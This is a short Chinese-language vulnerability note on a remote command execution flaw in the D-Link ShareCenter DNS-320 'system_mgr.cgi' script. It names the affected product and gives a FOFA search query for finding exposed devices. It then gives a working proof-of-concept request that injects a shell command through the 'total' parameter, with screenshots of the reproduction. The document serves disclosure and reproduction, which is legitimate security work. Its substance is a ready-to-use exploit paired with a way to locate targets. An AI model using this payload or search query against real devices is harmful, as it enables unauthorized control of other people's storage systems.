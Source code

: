 # D-Link ShareCenter DNS-320 system_mgr.cgi 远程命令执行漏洞

## 漏洞描述

D-Link ShareCenter DNS-320 system_mgr.cgi 存在远程命令执行，攻击者通过漏洞可以控制服务器

## 漏洞影响

> [!NOTE]
>
> D-Link ShareCenter DNS-320

## FOFA

> [!NOTE]
>
> app="D_Link-DNS-ShareCenter"

## 漏洞复现

登录页面如下

![image-20210605180903289](http://wikioss.peiqi.tech/vuln/image-20210605180903289.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

漏洞POC为

```
/cgi-bin/system_mgr.cgi?cmd=cgi_get_log_item&total=;ls;
```

![image-20210605181224009](http://wikioss.peiqi.tech/vuln/image-20210605181224009.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)